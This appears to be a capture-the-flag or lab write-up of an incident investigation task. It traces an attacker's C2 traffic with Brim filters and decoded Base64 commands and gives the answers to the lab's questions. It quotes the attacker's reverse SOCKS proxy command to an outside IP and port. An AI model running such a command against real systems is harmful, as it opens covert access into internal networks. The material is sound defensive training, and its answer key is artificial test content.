 
Task 7 Discovery – Internal Reconnaissance

Internal Reconnaissance

Based on the collected findings, we have discovered that the malicious binary continuously uses the C2 traffic:

We can easily decode the encoded string in the network traffic.

The traffic contains the command and output executed by the attacker.

Investigation Guide

To continue with the investigation, we may focus on the following information:

Find network and process events connecting to the malicious domain.

Find network events that contain an encoded command.

We can use Brim to filter all packets containing the encoded string.

Look for endpoint enumeration commands since the attacker is already inside the machine.

In addition, we may refer to our cheatsheet for Brim to quickly investigate the encoded traffic with the following filters:

To get all HTTP requests related to the malicious C2 traffic: _path=="http" "<replace domain>" id.resp_p==<replace port> | cut ts, host, id.resp_p, uri | sort ts

Significant Data Sources:

Packet Capture

Sysmon


The attacker was able to discover a sensitive file inside the machine of the user. What is the password discovered on the aforementioned file?

Finding this will be a pain, as there are a lot of Base64 encoded commands, and I’m sure there’s an easier way to decode this, but I found It quickly.

The attacker then enumerated the list of listening ports inside the machine. What is the listening port that could provide a remote shell inside the machine?

Turns out we are still not done with Base64 and we still need to keep decoding.
After a while of searching, I came up with this. Doing some research on the ports, it seems like port 5985 is the listening port, as it is primarily associated with Windows Remote Management (WinRM)'s HTTP listener.

The attacker then established a reverse socks proxy to access the internal services hosted inside the machine. What is the command executed by the attacker to establish the connection?

Luckily, we already found this earlier, and this is just: C:\Users\benimaru\Downloads\ch.exe client 167.71.199.191:8080 R:socks

What is the SHA256 hash of the binary used by the attacker to establish the reverse socks proxy connection?

This is also found in the same row, so after searching for it, the sum is 8A99353662CCAE117D2BB22EFD8C43D7169060450BE413AF763E8AD7522D2451.
